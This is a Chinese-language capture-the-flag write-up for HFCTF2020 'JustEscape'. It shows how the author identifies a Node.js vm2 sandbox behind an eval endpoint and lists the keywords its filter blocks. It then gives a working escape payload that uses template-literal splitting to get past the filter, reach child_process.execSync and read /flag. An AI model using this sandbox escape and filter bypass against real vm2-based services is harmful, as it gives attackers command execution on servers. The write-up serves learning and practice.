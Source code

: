 ```yaml
---
title: '[HFCTF2020]JustEscape'
date: 2024-06-21 20:20:26
tags: 
      - nodejs
      - 沙箱逃逸
categories: 刷题笔记
---
```


### [HFCTF2020]JustEscape（vm沙箱逃逸）

页面有一堆提示的东西

![image-20240621205503656](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406212055791.png)

我们可以访问

/run.php

发现了一串代码

<!--more-->

```
<?php
if( array_key_exists( "code", $_GET ) && $_GET[ 'code' ] != NULL ) {
    $code = $_GET['code'];
    echo eval(code);
} else {
    highlight_file(__FILE__);
}
?>
```

考虑到提示，又由于eval()函数不仅仅是php含有的，Node.js也有这个函数。于是用`Errot().stack`测试，页面回显了一堆错误报错。

![image-20240621210247886](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406212102934.png)

测试过后发现是nodejs。

根据这些报错，应该可以确认是vm沙箱逃逸，在这里面有最新的沙箱逃逸的poc。https://github.com/patriksimek/vm2/issues/225
但是直接用的话，应该会被waf拦截

![image-20240621211244892](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406212112024.png)

经过探测，发现waf过滤掉了一下的关键字。

```
['for', 'while', 'process', 'exec', 'eval', 'constructor', 'prototype', 'Function', '+', '"',''']
```

我们用javascript的模版文字绕过。

```
prototype变成`${`${`prototyp`}e`}`
```

payload.

```
(function (){
    TypeError[`${`${`prototyp`}e`}`][`${`${`get_proces`}s`}`] = f=>f[`${`${`constructo`}r`}`](`${`${`return this.proces`}s`}`)();
    try{
        Object.preventExtensions(Buffer.from(``)).a = 1;
    }catch(e){
        return e[`${`${`get_proces`}s`}`](()=>{}).mainModule[`${`${`requir`}e`}`](`${`${`child_proces`}s`}`)[`${`${`exe`}cSync`}`](`cat /flag`).toString();
    }
})()

```

![image-20240621211407655](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406212114866.png)

当然prototype还能用拼接绕过

```
prototype变成`p`,`r`,`o`,`t`,`o`,`t`,`y`,`p`,`e`
```

